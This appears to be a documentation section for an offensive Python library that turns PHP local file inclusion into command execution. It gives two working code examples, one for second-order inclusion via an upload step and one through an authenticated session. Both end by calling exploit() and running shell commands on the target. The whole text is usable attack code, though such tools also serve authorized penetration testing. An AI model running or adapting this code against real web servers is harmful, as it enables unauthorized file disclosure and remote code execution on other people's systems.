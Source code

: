 ## Handling Advanced LFI Scenarios

### 2nd Order LFI Exploitation

For 2nd order LFI (where file inclusion happens after another action), you can use a custom leak function:

```python
from elle_est_fit import LFI
import requests

def second_order_leak(file_path):
    """
    Handle 2nd order LFI where the inclusion happens after another action.
    
    For example, if you need to:
    1. Upload a file with a specific name
    2. Trigger another page that includes that file
    """
    # Step 1: Set up the conditions for the LFI
    session = requests.Session()
    
    # For example, upload a file or set some state
    session.post("http://vulnerable.com/upload.php", 
                 data={"filename": file_path})
    
    # Step 2: Trigger the LFI
    response = session.get("http://vulnerable.com/view.php")
    return response.text

# Create LFI with custom leak function
lfi = LFI(
    leak_function=second_order_leak,
    technique="php_filters"
)

if lfi.exploit():
    print(lfi.shell("id"))
```

### Working with Complex Authentication

```python
from elle_est_fit import LFI
import requests

# First set up your authenticated session
session = requests.Session()
session.post("http://vulnerable.com/login.php", 
             data={"username": "admin", "password": "secret"})

def authenticated_leak(file_path):
    """Leak file contents using an authenticated session."""
    response = session.get(f"http://vulnerable.com/index.php?file={file_path}")
    return response.text

# Use the authenticated leak function
lfi = LFI(
    leak_function=authenticated_leak,
    technique="php_filters"
)

if lfi.exploit():
    print(lfi.shell("id"))
```